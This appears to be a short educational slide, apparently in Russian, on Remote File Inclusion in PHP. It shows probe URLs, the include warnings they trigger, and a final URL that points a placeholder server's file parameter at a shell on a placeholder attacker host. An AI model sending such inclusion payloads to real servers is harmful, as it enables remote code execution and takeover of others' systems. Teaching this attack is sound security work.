

# RFI
http : //www.атакуемый_сервер.com/index.php?page=main
http : //www.атакуемый_сервер.com/index.php?page=abcd
`Warning : main (abcd . php ): failed to open stream : No such file or directory in / home / user / www [//page.php](https://page.php/) on line 3`

`Warning : main (abcd . php ): failed to open stream : No such file or directory in / home / user / www / page . php on line 3`

`Warning : main (): Failed opening "abcd.php" for inclusion (include_path = ".:/usr/lib/php:/usr/local/lib/php:/usr/local/share/pear" ) in / home / user / www / page . php on line 3`
http : //www.атакуемый_сервер.com/index.php?file=http://www.сайт_злоумышленника.com/shell